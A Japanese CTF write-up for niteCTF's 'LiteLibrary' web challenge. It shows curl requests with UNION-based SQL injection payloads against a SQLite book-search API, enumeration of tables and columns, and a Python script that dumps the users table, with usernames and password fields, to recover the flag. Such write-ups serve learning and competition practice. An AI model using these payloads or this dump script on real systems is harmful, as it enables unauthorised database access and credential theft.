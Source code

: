 # LiteLibrary:web:XXXXpts
Testing in prod. No worries are long as we are lighte :)  
[http://litelibrary.web.nitectf.live/](http://litelibrary.web.nitectf.live/)  

# Solution
URLが渡される。  
アクセスすると本を検索できるサービスのようだ。  
![site1.png](site/site1.png)  
サイトが検索リクエスト以外を送信していないため、検索APIに注目する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=_"
[{"title":"Things Fall Apart","author":"Chinua Achebe","pages":"209","imageLink":"images/things-fall-apart.jpg","link":"https://en.wikipedia.org/wiki/Things_Fall_Apart"}]
```
試しに`_`を送信すると先頭の本がヒットした。  
内部でSQLが用いられていそうなので、SQLiを試す。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,1,1,1,1;+--+s"
[{"title":1,"author":1,"pages":1,"imageLink":1,"link":1}]
```
UNION-based SQLiが実行できる。  
まずはDBMSを特定する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+sqlite_version(),1,1,1,1;+--+s"
[{"title":"3.41.1","author":1,"pages":1,"imageLink":1,"link":1}]
```
SQliteであるようだ。  
テーブル名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(tbl_name),1,1,1,1+FROM+sqlite_master+WHERE+type='table';+--+s"
[{"title":"BOOKS,USERS","author":1,"pages":1,"imageLink":1,"link":1}]
```
`books`と`users`が存在するとわかる。  
`users`が怪しいのでカラム名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(name),1,1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":"Blindness","author":"José Saramago","pages":"352","imageLink":"images/blindness.jpg","link":"https://en.wikipedia.org/wiki/Blindness_(novel)"}]
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,group_concat(name),1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":1,"author":"liteId,liteUsername,gender,liteNick,litePass,dateCreated","pages":1,"imageLink":1,"link":1}]
```
titleのチェックがあるのか、文字列が長いとBlindnessになってしまう。  
authorで取得すればよい。  
カラム名が分かったので以下のdump.pyで`users`を取得してやる(`dateCreated`は不要だと予測)。  
```python
import requests

for i in range(0xff):
    res = requests.get(
        f"http://litelibrary.web.nitectf.live/api/search?q=s' UNION SELECT liteid,liteusername,gender,litenick,litepass FROM users LIMIT 1 OFFSET {i}; -- s"
    )
    print(res.text)
```
実行する。  
```bash
$ python dump.py
[{"title":"002cd316-affa-4455-b482-7a4d60e79eb4","author":"f043manh1nt0n","pages":"male","imageLink":"winters781241","link":"0ifnfgkijagmi"}]
~~~
[{"title":"28582015-49f6-43f8-9aad-a9e5d4a5687f","author":"madmaxfuryyyyy2344","pages":"male","imageLink":"nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}","link":"yeehaaw1amMadx"}]
[{"title":"291c0336-0f3d-49f0-8edb-129b68b98863","author":"40ch31le60nza135","pages":"female","imageLink":"beverly7070264","link":"6dd3a4f211bfca"}]
^C
```
imageLinkにflagが含まれていた。  

## nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}